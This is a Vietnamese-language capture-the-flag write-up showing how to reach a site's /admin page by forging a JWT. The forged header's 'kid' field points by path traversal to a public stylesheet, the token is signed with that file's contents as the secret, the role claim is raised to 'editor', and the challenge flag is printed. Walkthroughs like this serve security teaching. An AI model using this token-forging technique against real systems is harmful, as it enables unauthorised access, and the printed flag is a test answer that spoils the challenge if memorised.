




# You Are Kidding Me

## Kiểm tra trang web

Truy cập trực tiếp `/admin`, server trả về `401 Unauthorized`. Login trả về JWT:



Header:

```json
{
  "alg": "HS256",
  "kid": "reader.key",
  "typ": "JWT"
}
```

Payload:

```json
{
  "sub": "reader",
  "role": "reader"
}
```

Truy cập `/admin` trả về `403 Forbidden`:

```text
Your pass checks out as reader. The Editor's Desk is for editor passes only.
```

Claim `role` được server kiểm tra. Cần sửa `role=editor`.

Header chứa `kid=reader.key`. Trường `kid` thường được dùng để server chọn key tương ứng khi verify JWT. Nếu server chỉ dùng allowlist cố định thì thay đổi trường này sẽ làm token không hợp lệ. Ngược lại, nếu server nối trực tiếp `kid` vào đường dẫn file thì có thể xảy ra path traversal.

## Tạo JWT editor

Header cần dùng:

```json
{
  "alg": "HS256",
  "kid": "../static/style.css",
  "typ": "JWT"
}
```

Payload cần dùng:

```json
{
  "sub": "reader",
  "role": "editor"
}
```

Secret là toàn bộ nội dung `/static/style.css`. Download file đó về:



Sau đó import file lên CyberChef encode B64url:


Dán output vào secret:



Gửi token trong cookie tới `/admin`:



## Flag

```text
sun{h0tw1r3d_4dm1n_jwt}
```
